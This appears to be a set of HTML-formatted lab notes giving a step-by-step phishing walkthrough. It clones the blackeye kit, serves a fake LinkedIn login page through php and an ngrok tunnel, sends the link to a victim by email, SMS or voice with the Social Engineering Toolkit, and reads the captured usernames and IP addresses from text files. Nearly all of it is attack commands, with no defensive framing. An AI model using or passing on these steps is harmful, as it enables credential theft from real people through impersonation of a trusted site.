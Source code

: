 <h6>ver. 25-June-2022</h6>
<h3>Phishing Attack with <i><font color = blue>blackeye</font></i></h3>
<font size=4 color = dark red><i>: Spear Phising, Smishing, Vishing, Whaling<i></font>
<h4>Step-1. Create a fake web-page: Will use LinkedIn page in blackeye tool</h4>
<ul><em>
    <li>sudo git clone https://github.com/An0nUD4Y/blackeye</li>
    <li>cd blackeye</li>
    <li>ls</li>
</em></ul>

<h4>Step-2. Run black eye for downloading ngrok</h4>
<ul><em>
    <li>sudo blackeye.sh</li>
    <h5>// linkedIn -> #9 </h5>
</em></ul>

<h4>Step-3. Open two terminals</h4>
<ul><em>
    <h5><u> At first terminal</u></h5>
    <li>ngrok http 8080</li> 
    <h5>// Copy the link to the fake page</h5>
    <h5><u> At second terminal</u></h5>
    <li>cd blackeye/sites/linkedin</li>
    <li>php -S localhost:8080</li>
    <h5>// Open a web-browser and goto "localhost:8080", and check the fake site</h5>
</em></ul>

<h4>Step-4. Sign up ngrok account(It's free)</h4>
<ul><em>
    <h5>// log-in to ngrok.com</h5>
    <h5>// Setup & Installation</h5>
    <h5> a. Unzip to install: Unzip the downloaded file and replace the git-hub downloaded ngrok file with this file(update)</h5>
    <h5> b. Connect your account</h5>
    <li>ngrok authtoken "token-of-yours"</li>
    <h5>// Copy and paste </h5>
    <h5><u> Go to first terminal and reload ngrok</u></h5>
    <li>ngrok http 8080</li>
    <h5>// Open a web-browser and goto "ngrok-fake-site-address", and log-in to the fake LinkedIn</h5>
    <h5>// Check username.txt and ip.txt in sites/LinkedIn </h5>
</em></ul>

<h4>Step-5. Send the link to the fake site to a victim: email, sms, voice, etc.</h4>
<ul><em>
    <h5>// Use Social Engineering Toolkit(SET)</h5>
    <li>sudo setoolkit</li>
    <h5>// Copy and paste </h5>
    <h5><u> Go to first terminal and reload ngrok</u></h5>
    <li>ngrok http 8080</li>
    <h5>// Open a web-browser and goto "ngrok-fake-site-address", and log-in to the fake LinkedIn</h5>
    <h5>// Check username.txt and ip.txt in sites/LinkedIn </h5>
</em></ul>
